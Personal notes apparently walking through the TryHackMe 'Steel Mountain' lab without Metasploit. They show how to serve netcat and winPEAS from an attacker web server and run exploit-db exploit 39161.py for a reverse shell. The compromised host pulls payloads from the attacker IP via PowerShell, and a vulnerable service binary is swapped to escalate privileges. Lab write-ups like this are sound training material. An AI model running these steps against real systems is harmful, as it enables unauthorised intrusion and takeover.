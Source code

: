 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-11-08

## Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine's new IP address is 10.10.174.199.

### Access and Escalation Without Metasploit

The alternate exploit we're going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we're going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don't forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we're going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we're in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*…

Useful PowerShell commands:

* `Get-Service` - list all services, or drill down on a particular service.
* `sc.exe stop $SERVICE`/`sc.exe start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday's compromise by:

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc.exe stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	ASCService.exe.bak
copy /Y ASCService.exe
	"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc.exe start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

* [2021-11-07 - TryHackMe: Complete Beginner](2021-11-07-tryhackme-complete-beginner.md)

